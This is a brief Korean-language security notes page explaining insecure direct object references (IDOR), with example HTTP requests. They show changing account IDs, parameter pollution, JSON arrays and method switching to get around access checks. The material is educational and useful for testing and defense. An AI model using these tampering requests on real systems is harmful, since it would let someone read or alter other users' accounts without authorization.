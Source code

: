 # Concept
- insecure direct object references
- Access Control에서 발생하는 취약점 중 외부에 노출되거나 제공되는 입력이 Object에 직접 참고하고 엑세스할 때 이를 이용하여 본인의 권한을 넘어서는 액션을 수행
- 쉬운 예로 파라미터 조작해서 다른 id의 정보를 알아낼 수 있는 경우

# Exploit
- Origin Request
```
GET /info?accountId=15442
```

- IDOR Request
```
GET /info?accountId=1110
```



- Origin Request
```
POST /save_profile HTTP/1.1

account=15442&name=aaa
```

- IDOR Request
```
POST /save_profile HTTP/1.1

account=1110&name=aaa
```

- HPP를 통해 우회하는 경우도 있음
```
POST /save_profile HTTP/1.1

account=15442&account=1110&name=aaa
```

```
POST /save_profile HTTP/1.1

account[]=15442&account[]=1110&name=aaa
```

- JSON Array 이용
- Origin Request
```
POST /save_profile HTTP/1.1

{
    "account":"15442"
}
```

- Origin Request
```
POST /save_profile HTTP/1.1

{
    "account":[
        "15442",
        "1110"
    ]
}  
```

- Change Method
```
PUT /save_profile HTTP/1.1

account=1110&name=aaa
```